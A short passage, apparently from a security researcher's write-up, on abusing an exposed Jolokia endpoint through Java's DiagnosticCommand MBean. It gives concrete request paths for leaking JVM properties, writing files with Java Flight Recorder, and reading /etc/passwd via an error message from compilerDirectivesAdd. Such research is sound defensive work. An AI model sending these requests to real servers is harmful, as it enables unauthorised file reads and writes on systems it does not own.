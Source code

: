 - Get JVM Informations with vmSystemProperties
    - `/jolokia/exec/com.sun.management:type=DiagnosticCommand/vmSystemProperties`
    <img class="img_full" src="jolokia-diagnostic-vmproperties.png" alt="jolokia-diagnostic-vmproperties">
    - Cool, now we have tomcat's absolute location

- File write with JavaFlightRecorder
    - `/jolokia/exec/com.sun.management:type=DiagnosticCommand/jfrStart/filename=!/tmp!/foo`
    - `/jolokia/exec/com.sun.management:type=DiagnosticCommand/jfrDump/name=<ID_FROM_jfrStart>`
    - For this one, I wrote files, but did not take the time to make sure that we control part of its content, exercise left to the reader! :]

- File read with compilerDirectivesAdd
    - `/jolokia/exec/com.sun.management:type=DiagnosticCommand/compilerDirectivesAdd/!/etc!/passwd`
    <img class="img_full" src="jolokia-diagnostic-addCompiler.png" alt="jolokia-diagnostic-addCompiler">
    - Could not load, here's its content, thanks for the fish! *facepalm*
